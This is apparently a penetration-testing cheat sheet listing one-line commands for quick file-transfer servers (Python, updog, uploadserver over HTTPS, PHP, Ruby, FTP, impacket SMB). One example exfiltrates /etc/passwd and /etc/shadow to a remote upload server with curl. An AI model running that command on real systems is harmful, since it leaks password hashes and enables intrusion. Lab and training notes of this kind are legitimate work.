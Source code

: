 # Personal web server

### Python

```bash
python3 -m http.server 8080
```

### Updog

```
updog -d $(echo $(pwd)/) -p 80
```

### uploadserver

```shell-session
sudo python3 -m pip install --user uploadserver
```

* make it secure

```shell-session
openssl req -x509 -out server.pem -keyout server.pem -newkey rsa:2048 -nodes -sha256 -subj '/CN=server'
```

```shell-session
mkdir https && cd https
```

```shell-session
sudo python3 -m uploadserver 443 --server-certificate ~/server.pem
```

**Linux - Upload Multiple Files**

```shell-session
curl -X POST https://192.168.49.128/upload -F 'files=@/etc/passwd' -F 'files=@/etc/shadow' --insecure
```

* We used the option `--insecure` because we used a self-signed certificate that we trust.

### Linux - Creating a Web Server with PHP

```shell-session
php -S 0.0.0.0:8000
```

### Linux - Creating a Web Server with Ruby

```shell-session
ruby -run -ehttpd . -p8000
```

### FTP Server

```shell-session
 sudo python -m pyftpdlib -p 21
```

### SMB Server

```shell-session
impacket-smbserver -smb2support share $(pwd)
```

## References

* [https://realpython.com/python-http-server/](https://realpython.com/python-http-server/)
